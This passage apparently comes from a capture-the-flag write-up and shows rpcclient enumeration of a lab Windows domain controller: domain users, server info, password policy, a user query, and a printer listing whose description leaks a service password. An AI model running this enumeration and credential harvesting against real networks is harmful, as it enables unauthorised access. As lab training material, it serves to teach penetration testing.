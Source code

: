 ```
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
 ```
 
 More users!  In addition to the ones we found from the print job logs, we found service accounts.  Rpcclient has a lot of great commands for enumeration, so let's keep going.  In my cheat sheet, I have enumdomusers, srvinfo, getdompwinfo, chgpasswd, queryuser, enumprinters.
 
 ```
 rpcclient $> srvinfo
	10.10.10.193   Wk Sv PDC Tim PrQ NT 
	platform_id     :	500
	os version      :	10.0
	server type     :	0x80122b
rpcclient $> getdompwinfo
min_password_length: 7
password_properties: 0x00000001
	DOMAIN_PASSWORD_COMPLEX
rpcclient $> queryuser tlavel
	User Name   :	tlavel
	Full Name   :	
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Tue, 02 Feb 2021 22:29:59 EST
	Logoff Time              :	Wed, 31 Dec 1969 19:00:00 EST
	Kickoff Time             :	Wed, 31 Dec 1969 19:00:00 EST
	Password last set Time   :	Wed, 31 Dec 1969 19:00:00 EST
	Password can change Time :	Wed, 31 Dec 1969 19:00:00 EST
	Password must change Time:	Wed, 31 Dec 1969 19:00:00 EST
	unknown_2[0..31]...
	user_rid :	0x642
	group_rid:	0x201
	acb_info :	0x00020010
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000000
	padding1[0..7]...
	logon_hrs[0..21]...
rpcclient $> enumprinters
	flags:[0x800000]
	name:[\\10.10.10.193\HP-MFT01]
	description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
	comment:[]
 ```
 